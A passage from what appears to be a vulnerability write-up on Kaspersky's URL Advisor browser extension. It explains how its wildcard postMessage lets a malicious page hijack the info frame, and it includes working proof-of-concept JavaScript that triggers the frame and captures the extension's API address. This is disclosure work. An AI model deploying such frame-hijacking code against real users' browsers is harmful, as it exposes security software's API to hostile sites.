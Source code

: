 {{< highlight html >}}
<h3 class="r"><a href="https://example.com/">safe</a></h3>
{{< /highlight >}}

URL Advisor will add an image next to that link indicating that it is safe. When the mouse is moved over that image a frame will open with additional details.

{{< img src="url_advisor.png" alt="URL Advisor frame showing next to a link" width="286" />}}

And that frame will receive some data to initialize itself, including a `commandUrl` value which is (you guessed it) the way to access Kaspersky API. Rather than using the extension-specific APIs to communicate with the frame, Kaspersky developers took a shortcut:

{{< highlight js >}}
function SendToFrame(args)
{
  m_balloon.contentWindow.postMessage(ns.JSONStringify(args), "*");
}
{{< /highlight >}}

I'll refer to what MDN has to say about [using `window.postMessage` in extensions](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#Using_window.postMessage_in_extensions), particularly about using "*" as the second parameter here:

> Web or content scripts can use `window.postMessage` with a `targetOrigin` of `"*"` to broadcast to every listener, but this is discouraged, since an extension cannot be certain the origin of such messages, and other listeners (including those you do not control) can listen in.

And that's exactly it -- even though this frame was created by extension's content script, there is no guarantee that it still contains a page belonging to the extension. A malicious webpage can detect the frame being created and replace its contents, which allows it to listen in on any messages sent to this frame. And frame creation is trivial to trigger programmatically with a fake `mouseover` event.

{{< highlight js >}}
let onMessage = function(event)
{
  alert(`Kaspersky API available under ${JSON.parse(event.data).commandUrl}`);
};
let frameSource = `<script>window.onmessage = ${onMessage}<\/script>`;

let observer = new MutationObserver(list =>
{
  for (let mutation of list)
  {
    if (!mutation.addedNodes || !mutation.addedNodes.length)
      continue;

    let node = mutation.addedNodes[0];
    if (node.localName == "img")
      node.dispatchEvent(new MouseEvent("mouseover"));
    else if (node.localName == "iframe")
      node.src = "data:text/html," + encodeURIComponent(frameSource);
  }
});
observer.observe(document, {childList: true, subtree: true});
{{< /highlight >}}
